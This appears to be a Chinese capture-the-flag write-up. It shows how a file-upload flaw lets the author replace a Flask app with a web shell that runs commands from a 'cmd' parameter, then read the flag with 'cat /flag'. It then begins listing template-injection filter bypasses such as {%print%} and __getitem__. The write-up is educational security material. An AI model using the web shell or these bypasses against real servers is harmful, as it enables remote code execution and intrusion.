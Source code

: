 打开upload files，这个则是一个正常的文件上传

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737878278144-0cf0c5d1-f4ec-4e0c-bccb-9d69c715ab45.png)

打开admin manage，则发现要输入密码，大佬应该会爆破吧，我是小白，这题还是考SSTI的题，所以还是正常写吧

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737878312134-cdd6e463-d35d-407b-bfb8-cbe09f29e3e5.png)

简单上传了一个文件后出现如下页面

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737878491424-448972e5-2e8f-48f0-a149-d9c0dc8ed43a.png)

之后又上传了几个文件后发现，可以构造同名脚本来代替原来的Python文件，其中要有cmd来执行cat /flag命令从而获取flag，脚本如下：

```python
from flask import Flask,request
import os
app = Flask(__name__)
@app.route('/')
def index():
    try:
        cmd=request.args.get('cmd')
        a=os.popen(cmd).read()
        return a
    except:
        pass
    return 1
if __name__=='__main__':
    app.run(host='0.0.0.0',port=5000,debug=True)
```

上传后页面全都找不到了，说明替换成功了，毕竟我们上传的文件没有这个功能的![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737878650248-006cc086-717a-44c6-b693-f4834649d00a.png)

直接cat /flag

```python
?cmd=cat /flag
```

## ![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737877947612-028bfd31-cf84-475e-aaeb-2c6af1a94684.png)
# 二、<font style="color:rgba(0, 0, 0, 0.87);">WAF简单绕过方式总结</font>
### <font style="color:rgb(79, 79, 79);">1、{%%}绕过过滤{{}}</font>
可以用 <font style="color:rgb(79, 79, 79);">{%%} 来代替 {{}}，想要看到内容就用 print 输出一下,即</font>

```plain
{%print("".__class__)%}
```

### <font style="color:rgb(79, 79, 79);">2、getitem()绕过[]过滤</font>
<font style="color:rgb(77, 77, 77);">getitem() 是python的一个魔术方法,对字典使用时,传入字符串,返回字典相应键所对应的值:当对列表使用时,传入整数返回列表对应索引的值。</font>
